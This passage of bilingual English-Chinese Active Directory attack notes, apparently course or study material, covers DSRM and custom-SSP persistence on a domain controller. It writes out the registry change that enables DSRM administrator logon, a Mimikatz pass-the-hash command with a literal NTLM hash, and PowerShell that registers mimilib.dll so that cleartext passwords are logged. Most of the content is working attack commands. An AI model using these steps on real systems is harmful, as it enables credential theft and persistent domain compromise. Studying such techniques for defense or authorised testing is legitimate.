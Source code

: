 第一个就是DSRM local Administrator.


• Since it is the 'local' administrator of the DC, we can pass the hash to authenticate.（由于是DC的本地管理员哈希，因此可以进行PTH利用）
• But, the Logon Behavior for the DSRM account needs to be changed before we can use its hash（不过在此之前需要对登录行为进行更改方能利用）

```
Enter-PSSession -Computername us-dc

New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

使用下面命令pth
```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:us-dc /user:Administrator /ntlm:917ecdd1b4287f7051542d0241900cf0 /run:powershell.exe"'
```


如果要使用PSRemoting，必须强制NTLM认证
```
Enter-PSSession -ComputerName us-dc -Authentication Negotiate
```

# Custom SSP


A Security Support Provider (SSP) is a DLL which provides ways for an application to obtain an authenticated connection. Some SSP Packages by Microsoft are（安全支持提供者（SSP）是一个DLL，它为应用程序提供了获得认证连接的方法。微软提供的一些SSP包有）
– NTLM
– Kerberos
– Wdigest
– CredSSP
• Mimikatz provides a custom SSP - mimilib.dll. This SSP logs local logons, service account and machine account passwords in clear text on the target server.（Mimikatz提供了一个自定义的SSP - mimilib.dll。这个SSP记录了目标服务器上的本地登录、服务账户和机器账户密码的清晰文本）



我们可以使用其中一种方式：

1. 将mimilib.dll放到system32中，并将mimilib添加到HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages。
```
$packages = Get-ItemPropert HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'

$packages += "mimilib"

Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages

Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```
